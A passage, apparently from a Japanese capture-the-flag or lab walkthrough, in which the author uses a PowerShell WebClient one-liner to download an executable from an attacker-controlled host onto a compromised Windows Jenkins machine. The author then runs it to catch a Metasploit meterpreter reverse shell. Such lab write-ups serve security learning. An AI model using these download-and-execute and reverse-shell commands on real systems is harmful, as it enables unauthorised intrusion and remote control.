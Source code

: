 先ほどとった shell で以下を実行して DL します。

```powershell:shell2
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.66.152:8000/sheshe.exe','sheshe.exe')"
```

metasploit で multi/handler を待ち構えさせておきます。

```:shell3
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.66.152     yes       The listen address (an interface may be specified)
   LPORT     1111             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.66.152:1111
```

先ほど DL したスクリプトを実行します。

```powershell:shell2
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "sheshe.exe"
```

meterpreter を取得できました。

```:shell3
[*] Meterpreter session 1 opened (10.10.66.152:1111 -> 10.10.149.175:49207) at 2020-05-02 11:01:01 +0000

meterpreter > 
```

## `whoami /priv`で権限確認
